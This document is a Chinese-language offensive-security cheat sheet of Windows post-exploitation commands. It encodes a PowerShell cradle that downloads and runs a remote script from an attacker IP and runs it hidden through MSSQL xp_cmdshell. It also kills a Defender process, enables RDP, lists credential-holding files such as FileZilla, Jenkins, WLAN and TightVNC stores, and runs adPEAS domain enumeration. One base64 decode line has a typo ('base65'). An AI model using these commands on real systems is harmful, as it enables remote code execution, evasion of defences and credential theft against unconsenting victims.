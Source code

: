 # 加密的mssql命令
使用powershell encode上面的字符串

```
PS C:\Users\max> $str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.17.231:8080/w1"))'
PS C:\Users\max> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADcALgAyADMAMQA6ADgAMAA4ADAALwB3ADEAIgApACkA
```

使用上面的加密串在msqll server执行下面的命令

格式：
```
EXEC xp_cmdshell 'powershell -w hidden -enc <这里是加密命令>
```

# 杀进程
```
tasklist /FI "IMAGENAME eq NisSrv.exe"


taskkill /pid 5672 -f

```


# base64

加密
```
base64 -w0 <filename> 
```

解密
```
echo "<base64 string here>" | base65 -d > <解密文件>
```

# 监听流量

```
tcpdump -i tun0 -w capture_file
```


# 开启RDP
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```


# Juicy files

## All user folders
## Limit this command if there are too many files ;)
```
tree /f /a C:\Users
```

## Web.config
```
C:\inetpub\www\*\web.config
```

## Unattend files
```
C:\Windows\Panther\Unattend.xml
```


## RDP config files
```
C:\ProgramData\Configs\
```


## Powershell scripts/config files
```
C:\Program Files\Windows PowerShell\
```


## PuTTy config
```
C:\Users\[USERNAME]\AppData\LocalLow\Microsoft\Putty
```

## FileZilla creds
```
C:\Users\[USERNAME]\AppData\Roaming\FileZilla\FileZilla.xml
```

## Jenkins creds (also check out the Windows vault, see above)
```
C:\Program Files\Jenkins\credentials.xml
```


## WLAN profiles
```
C:\ProgramData\Microsoft\Wlansvc\Profiles\*.xml
```

## TightVNC password (convert to Hex, then decrypt with e.g.: https://github.com/frizb/PasswordDecrypts)
```
Get-ItemProperty -Path HKLM:\Software\TightVNC\Server -Name "Password" | select -ExpandProperty Password
```



# adPEAS

## 引入
```
powershell-import tools/adPEAS/adPEAS.ps1
```
或者
```
. .\adPEAS.ps1
```

或者
```
Import-Module .\adPEAS.ps1
```

## 执行
```
Invoke-adPEAS
```

```
Invoke-adPEAS -Domain 'm3c.local' -Outputfile 'C:\ActiveMQ\m3c_adPEAS_outputfile' 
```

# 发邮件
```
sendEmail 命令主程序
-f ttlsafrom@163.com  发件人邮箱
-s smtp.163.com       发件人邮箱的smtp服务器
-u "我是邮件主题"     邮件的标题
-o message-content-type=html   邮件内容的格式,html表示它是html格式
-o message-charset=utf8        邮件内容编码
-xu ttlsafrom@163.com          发件人邮箱的用户名
-xp 123456               发件人邮箱密码
-m "我是邮件内容"        邮件的具体内容
```

例子：
```
sendEmail -f <发件人邮箱> -t <收件人邮箱> -s <发件人邮箱的smtp服务器（IP 或者 域名> -u <邮件主题> -m <邮件内容>
```


命令解释
```
sendEmail             

sendEmail-1.56 by Brandon Zehm <caspian@dotconf.net>

Synopsis:  sendEmail -f ADDRESS [options]

  Required:
    -f ADDRESS                from (sender) email address
    * At least one recipient required via -t, -cc, or -bcc
    * Message body required via -m, STDIN, or -o message-file=FILE

  Common:
    -t ADDRESS [ADDR ...]     to email address(es)
    -u SUBJECT                message subject
    -m MESSAGE                message body
    -s SERVER[:PORT]          smtp mail relay, default is localhost:25
    -S [SENDMAIL_PATH]        use local sendmail utility (default: /usr/bin/sendmail) instead of network MTA

  Optional:
    -a   FILE [FILE ...]      file attachment(s)
    -cc  ADDRESS [ADDR ...]   cc  email address(es)
    -bcc ADDRESS [ADDR ...]   bcc email address(es)
    -xu  USERNAME             username for SMTP authentication
    -xp  PASSWORD             password for SMTP authentication

  Paranormal:
    -b BINDADDR[:PORT]        local host bind address
    -l LOGFILE                log to the specified file
    -v                        verbosity, use multiple times for greater effect
    -q                        be quiet (i.e. no STDOUT output)
    -o NAME=VALUE             advanced options, for details try: --help misc
        -o message-content-type=<auto|text|html>
        -o message-file=FILE         -o message-format=raw
        -o message-header=HEADER     -o message-charset=CHARSET
        -o reply-to=ADDRESS          -o timeout=SECONDS
        -o username=USERNAME         -o password=PASSWORD
        -o tls=<auto|yes|no>         -o fqdn=FQDN


  Help:
    --help                    the helpful overview you're reading now
    --help addressing         explain addressing and related options
    --help message            explain message body input and related options
    --help networking         explain -s, -b, etc
    --help output             explain logging and other output options
    --help misc               explain -o options, TLS, SMTP auth, and more


```